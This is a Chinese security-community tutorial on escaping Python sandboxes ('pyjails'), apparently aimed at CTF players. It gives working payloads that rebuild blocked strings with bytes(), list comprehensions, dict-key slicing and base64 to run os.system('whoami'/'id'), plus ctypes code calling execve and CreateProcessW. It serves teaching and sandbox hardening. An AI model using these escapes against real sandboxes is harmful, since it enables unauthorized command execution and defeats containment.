


# pyjail逃逸艺术-先知社区

> **来源**: https://xz.aliyun.com/news/17209  
> **文章ID**: 17209

---

# 沙箱介绍

Python 沙箱是一种隔离执行环境，用于限制代码的权限，防止其访问敏感资源

### **沙箱逃逸的核心思路**

1. **绕过模块禁用**：通过动态导入或反射访问被禁用的模块（如 os、subprocess）。
2. **突破函数过滤**：利用内置函数或编码技术绕过关键字检测。
3. **内存操作**：通过 ctypes 或 cffi 直接调用底层 C 函数。

## **bytes** **的基本用法**

bytes 是 Python 中用于表示字节序列的内置类型。它可以通过接收一个包含整数的可迭代对象（如列表、元组、生成器等）来构造字节序列。每个整数代表一个字节的值，范围是 0 到 255（即一个字节的取值范围）。通过控制这些整数的值，可以构造出任意想要的字节序列，进而转换为字符串或执行其他操作。

```
bytes(iterable_of_ints)
```

* **参数**：
* iterable\_of\_ints：一个可迭代对象（如列表、元组、生成器等），其中的每个元素是 0 到 255 的整数。
* **返回值**：
* 返回一个字节序列（bytes 对象）。

**示例**：

```
# 通过列表构造字节序列
byte_seq = bytes([119, 104, 111, 97, 109, 105])
print(byte_seq)  # 输出: b'whoami'
```

## **为什么** **bytes** **可以构造任意字符串**

### **字节与字符的对应关系**

* 在计算机中，字符是通过编码（如 ASCII、UTF-8）存储为字节的。
* 每个字符对应一个或多个字节的值。
* 例如：

* 字符 'w' 的 ASCII 值是 119。
* 字符 'h' 的 ASCII 值是 104。
* 字符 'o' 的 ASCII 值是 111。
* 字符 'a' 的 ASCII 值是 97。
* 字符 'm' 的 ASCII 值是 109。
* 字符 'i' 的 ASCII 值是 105。

因此，通过控制字节序列的值，可以构造出任意字符串。

### **动态构造字节序列**

* 如果直接使用字符串（如 'whoami'）被限制，可以通过动态生成字节序列来绕过限制。

```
# 通过列表构造字节序列
byte_seq = bytes([119, 104, 111, 97, 109, 105])
print(byte_seq)  # 输出: b'whoami'
```

如果沙箱检测关键字（如 os.system），可以通过 bytes 构造这些关键字的字节序列。

```
# 直接使用关键字被限制
# __import__('os').system('id')  # 被拦截

# 通过 bytes 构造
exp = bytes([95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 111, 115, 34, 41, 46, 115, 121, 115, 116, 101, 109, 40, 34, 105, 100, 34, 41])
eval(exp.decode())  # 执行 __import__('os').system('id')
```

### **利用列表推导式生成字节序列**

* 如果直接使用列表（如 [119, 104, 111, 97, 109, 105]）被限制，可以通过列表推导式动态生成字节序列。

```
# 使用列表推导式生成字节序列
byte_seq = bytes([j for i in range(6) for j in range(256) if (i, j) in [(0, 119), (1, 104), (2, 111), (3, 97), (4, 109), (5, 105)]])
print(byte_seq)  # 输出: b'whoami'
```

# 黑名单绕过

```
blacklist=["'", '"', ',', ' ', '+', '__']
```

## **核心思路**

* **目标**：构造任意字符串（如 whoami 或 \_\_import\_\_("os").system("whoami")）。
* **限制**：

* 不能直接使用字符串（如 'whoami'）。
* 不能使用特殊字符（如空格、引号、括号等）。
* 不能使用逗号（,）直接构造列表。

* **问题**：

* 如果直接使用字符串（如 '\_\_import\_\_("os").system("whoami")'），会被黑名单拦截。
* 如果直接使用列表（如 [95,  
  95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 111, 115, 34, 41, 46,   
  115, 121, 115, 116, 101, 109, 40, 34, 105, 100, 34, 41]），会被逗号 , 和空格  限制。

* **解决方法**：

* 使用列表推导式生成字节序列，避免直接使用逗号和空格。
* 用 [ ] 替代空格，绕过空格限制。
* 利用 bytes() 函数，通过列表推导式生成字节序列。
* 使用条件语句（if）筛选出需要的字节值。

payload代码

```
exp = '__import__("os").system("whoami")'

payload = f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if[" + "]or[".join([f"i]==[{i}]and[j]==[{ord(j)}" for i, j in enumerate(exp)]) + "]]))"

print(payload)
```

#### **动态生成字节序列**

```
bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if[...]])
```

* **作用**：

* 生成 \_\_import\_\_("os").system("whoami") 的字节序列。

* **解析**：

* for(i)in[range({len(exp)})][0]：遍历 i 从 0 到 len(exp)-1。
* for(j)in[range(256)][0]：遍历 j 从 0 到 255。
* if[...]：筛选出满足条件的 j 值。

#### **条件筛选**

```
"]or[".join([f"i]==[{i}]and[j]==[{ord(j)}" for i, j in enumerate(exp)])
```

* **作用**：

* 动态生成条件语句，筛选出需要的字节值。

* **解析**：

* for i, j in enumerate(exp)：遍历 exp 中的每个字符 j 和其索引 i。
* f"i]==[{i}]and[j]==[{ord(j)}"：生成条件 i=={i} and j=={ord(j)}。
* "]or["：将多个条件用 or 连接。



命令执行：



# 如果if也被过滤

### **利用** **vars()**和binascii 动态解码并执行命令

#### **构造** **\_\_import\_\_** **字符串**

```
list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2]
```

* **目的**：生成字符串 "\_\_import\_\_"。
* **关键技巧**：

* 通过 dict 的键名 \_1\_1i1m1p1o1r1t1\_1\_ 混淆目标字符串。
* [::2] 切片操作提取偶数位字符，去除冗余的 1 和 \_。
* 最终得到 "\_\_import\_\_"。

**动态导入** **binascii** **模块**

```
eval(
    list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2]  # → "__import__"
)(
    list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]    # → "binascii"
)
```

* **目的**：动态调用 \_\_import\_\_("binascii")，导入 binascii 模块。
* **关键技巧**：

* list(dict(b\_i\_n\_a\_s\_c\_i\_i\_=1))[0][::2] 生成 "binascii"。
* eval("\_\_import\_\_")("binascii") 等效于 import binascii。

#### **获取** **binascii** **模块的命名空间**

```
python


vars(
    eval(...)  # 返回 binascii 模块对象
)
```

* **目的**：通过 vars(binascii) 获取模块的属性和方法字典。
* **结果**：

```
{
    'a2b_base64': <function a2b_base64>,
    'b2a_base64': <function b2a_base64>,
    ...
}
```

#### **提取** **a2b\_base64** **解码函数**

```
vars(...)[
    list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]  # → "a2b_base64"
]
```

* **目的**：从 binascii 模块的命名空间中获取 a2b\_base64 函数。
* **关键技巧**：

* list(dict(a\_2\_b1\_1b\_a\_s\_e\_6\_4=1))[0][::2] 生成 "a2b\_base64"。
* 等效于 binascii.a2b\_base64。

#### **解码 Base64 命令**

```
(...)(
    list(dict(X19pbXBvcnRfXygnb3MnKS5wb3Blbignd2hvYW1pJykucmVhZCgp=1))[0]
)
```

**最终payload**

```
eval(vars(eval(list(dict(_1_1i1m1p1o1r1t1_1_=1))[0][::2])(list(dict(b_i_n_a_s_c_i_i_=1))[0][::2]))[list(dict(a_2_b1_1b_a_s_e_6_4=1))[0][::2]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3Blbignd2hvYW1pJykucmVhZCgp=1))[0]))
```

#### **绕过关键字过滤**

* \_\_import\_\_：通过混淆字符串 \_1\_1i1m1p1o1r1t1\_1\_ 和切片 [::2] 绕过对 import 的检测。
* binascii：通过混淆字符串 b\_i\_n\_a\_s\_c\_i\_i\_ 绕过对模块名的直接引用。

#### **无点号操作**

* vars() 替代 .：通过 vars(module)["function"] 替代 module.function，避免使用点号 .。

#### **动态加载与执行**

* **动态解码**：命令通过 Base64 编码隐藏，避免直接暴露敏感字符串。
* **单行表达式**：所有操作合并为一行，适应严格的行数或字符限制。

# 底层原理回顾

在 Linux 中，os.system("ls") 的本质是调用 fork() + execve() 的组合：

1. fork()：创建子进程（分身），让父进程继续执行。
2. execve()：在子进程中替换为新程序（如 ls）。
3. **等待子进程结束**：父进程通过 waitpid() 收集结果。
4. **资源清理**：子进程结束后自动回收。

|  |  |  |
| --- | --- | --- |
| 调用 os.system() | os.system("whoami") | 触发系统调用链 |
| fork()  创建子进程 | pid = FORK() | 分离父/子进程执行流 |
| 子进程执行命令 | EXECVE(program, argv, None) | 加载并运行新程序 |
| 父进程等待子进程 | WAITPID(pid, byref(status), 0) | 同步父子进程结束时机 |
| 返回退出状态 | 解析 status.value  的退出码/信号 | 确定命令执行结果 |

ctypes 是 Python 的 C 扩展模块，提供以下核心功能：

```
import ctypes
libc = ctypes.CDLL(None)  # 加载 C 标准库
libc.fork()               # 调用 fork()
libc.execve(...)          # 调用 execve()
```

通过 ctypes，用户可以：

* **绕过 Python 层面的限制**：直接操作底层 C 函数。
* **执行任意系统命令**：如通过 fork() + execve() 组合（即 os.system() 的底层实现）。
* **访问敏感资源**：如打开文件、绑定 socket 等。

只要pyjail不禁用ctypes，我们就能够间接的通过ctypes调用c语言实现上述的调用

### **为什么 PyJail 需要禁用 ctypes？**

* **系统级访问**：ctypes 允许直接调用 fork()、execve()、socket() 等底层函数，可执行任何系统命令。
* **沙箱失效**：若未禁用 ctypes，沙箱无法阻止用户通过 C 接口突破限制。
* **安全风险**：攻击者可利用 ctypes 注入恶意代码

### 示例代码：

```
import ctypes
from ctypes import c_char_p, byref, c_int

# 加载 C 标准库
libc = ctypes.CDLL(None)

# 定义 execve 参数类型
execve = libc.execve
execve.argtypes = [c_char_p, c_char_p * 100, c_char_p * 100]
execve.restype = c_int

# 构建命令参数（示例：执行 "ls"）
args = ("/bin/ls", None)  # argv 数组需以 NULL 结尾

# 调用 execve()
libc.execve("/bin/ls".encode(), args, None)
```

这段代码直接通过 ctypes 调用 execve()，完全绕过 Python 的 os 模块，执行 ls 命令。

windows下

```
import ctypes
from ctypes import wintypes

# 定义必要的结构体和常量
class STARTUPINFO(ctypes.Structure):
    _fields_ = [
        ("cb", wintypes.DWORD),
        ("lpReserved", wintypes.LPWSTR),
        ("lpDesktop", wintypes.LPWSTR),
        ("lpTitle", wintypes.LPWSTR),
        ("dwX", wintypes.DWORD),
        ("dwY", wintypes.DWORD),
        ("dwXSize", wintypes.DWORD),
        ("dwYSize", wintypes.DWORD),
        ("dwXCountChars", wintypes.DWORD),
        ("dwYCountChars", wintypes.DWORD),
        ("dwFillAttribute", wintypes.DWORD),
        ("dwFlags", wintypes.DWORD),
        ("wShowWindow", wintypes.WORD),
        ("cbReserved2", wintypes.WORD),
        ("lpReserved2", wintypes.LPBYTE),
        ("hStdInput", wintypes.HANDLE),
        ("hStdOutput", wintypes.HANDLE),
        ("hStdError", wintypes.HANDLE),
    ]

class PROCESS_INFORMATION(ctypes.Structure):
    _fields_ = [
        ("hProcess", wintypes.HANDLE),
        ("hThread", wintypes.HANDLE),
        ("dwProcessId", wintypes.DWORD),
        ("dwThreadId", wintypes.DWORD),
    ]

# 加载 kernel32.dll
kernel32 = ctypes.WinDLL('kernel32', use_last_error=True)

# 获取函数原型
CreateProcessW = kernel32.CreateProcessW
CreateProcessW.argtypes = [
    wintypes.LPCWSTR,  # lpApplicationName
    wintypes.LPWSTR,   # lpCommandLine
    wintypes.LPVOID,   # lpProcessAttributes
    wintypes.LPVOID,   # lpThreadAttributes
    wintypes.BOOL,     # bInheritHandles
    wintypes.DWORD,    # dwCreationFlags
    wintypes.LPVOID,   # lpEnvironment
    wintypes.LPCWSTR,  # lpCurrentDirectory
    ctypes.POINTER(STARTUPINFO),  # lpStartupInfo
    ctypes.POINTER(PROCESS_INFORMATION)  # lpProcessInformation
]
CreateProcessW.restype = wintypes.BOOL

def my_system(command):
    # 初始化 STARTUPINFO 和 PROCESS_INFORMATION 结构体
    startup_info = STARTUPINFO()
    startup_info.cb = ctypes.sizeof(startup_info)
    process_information = PROCESS_INFORMATION()

    command_line = ctypes.create_unicode_buffer(command)

    # 调用 CreateProcess
    success = CreateProcessW(
        None,                   # No application name
        command_line,           # Command line
        None,                   # Process handle not inheritable
        None,                   # Thread handle not inheritable
        False,                  # Set handle inheritance to FALSE
        0,                      # No creation flags
        None,                   # Use parent's environment block
        None,                   # Use parent's starting directory
        ctypes.byref(startup_info),  # Pointer to STARTUPINFO structure
        ctypes.byref(process_information)  # Pointer to PROCESS_INFORMATION structure
    )

    if success:
        # 等待子进程完成
        kernel32.WaitForSingleObject(process_information.hProcess, -1)
        kernel32.CloseHandle(process_information.hProcess)
        kernel32.CloseHandle(process_information.hThread)
    else:
        print(f"CreateProcess failed, error {ctypes.get_last_error()}")

# 示例命令
my_system("cmd /c dir")
```
